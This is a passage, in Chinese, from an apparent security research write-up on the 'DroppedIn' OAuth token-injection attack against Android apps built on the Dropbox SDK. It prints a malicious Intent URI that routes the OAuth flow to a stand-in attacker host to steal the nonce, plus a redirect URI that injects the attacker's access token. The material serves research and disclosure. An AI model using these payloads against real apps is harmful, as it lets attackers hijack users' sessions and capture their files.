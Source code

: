 0x06 DROPPEDIN 攻击
=====

对本地和远程（drive-by）攻击，我们都予以了实现。这两种攻击都要求被攻击设备不能安装Dropbox app，并要求攻击者预先以一种带外的方式获得access token（ACCESS_TOKEN_KEY, ACCESS_TOKEN_SECRET），以及与其账户和被攻击app相关的uid。这一步很容易，因为攻击者可以简单地下载被攻击app到自己的设备上，授权自己的Dropbox账号使用，并记录返回的access token对。如图6.1，远程攻击分四个步骤，本地攻击也与此类似，但要求被攻击设备上安装恶意应用。

![image](http://drops.javaweb.org/uploads/images/288962f632bedd77a7c16adafc676e6cf76991b5.jpg)图6.1 Droppedin 攻击

6.1 自然的网页浏览
-----------

* * *

受害者访问了攻击者完全控制的恶意网站，或者被攻击者利用漏洞（如XSS）植入恶意代码的网站。

6.2 主动的Nonce泄露
--------------

* * *

恶意代码携带特别的Intent参数，使用户的浏览器启动被攻击的app，并使随后的OAuth过程与攻击者所控制的服务器间进行，而不是正常的`https://www.dropbox.com`。这一步骤使攻击者获得nonce。通过简单的HTTP重定向到以下代码就可以实现： Intent:#Intent;scheme=db-<APP_KEY>; S.EXTRA_INTERNAL_WEB_HOST=; S.EXTRA_INTERNAL_APP_KEY=foo; S.EXTRA_INTERNAL_APP_SECRET=bar; end

截至本文写作时，大多数的流行浏览器都支持上述这种Intent URI scheme机制的隐式Intent。

6.3 Auth Access Token注入
-----------------------

* * *

上述Intent将最终使浏览器访问`https://attacker:443/1/connect`（并在GET参数中携带nonce），这要求攻击者拥有自己的SSL证书，但这也很容易。获取nonce后，攻击者就可以通过另一个HTTP重定向到以下代码，注入自己预先产生的access token到app中。

```
db-<APP_KEY>://1/connect?oauth_token_secret=<ACCESS_TOKEN_SECRET>
            &oauth_token=<ACCESS_TOKEN_KEY>
            &uid=<UID>
            &state=<NONCE>

```

如果access token被成功注入，将保存在`AuthActivity.result`中。

6.4 App使用OAuth Access Token
---------------------------

* * *

至此，AuthActivity的静态成员变量result就包含了攻击者的token。其余就是被攻击app如何使用这些数据了，这取决于开发者。

不排除有别的情况存在，但总体而言，客户端（app）代码将在其中一个Activity的onCreate方法或者在用户点击某些按钮时发起认证过程。接下来就是检查认证是否成功，并在其onResume方法中将token用于Dropbox会话。

攻击得以成功关键的一点在于，onCreate和onResume方法依次调用（见[4,6]）。这表明，攻击者一旦在app的activity呈现之前注入他的access token，这个access token就会在用户输入自己的凭据之前使用，见第7章的具体案例分析。

0x07 案例研究
=====
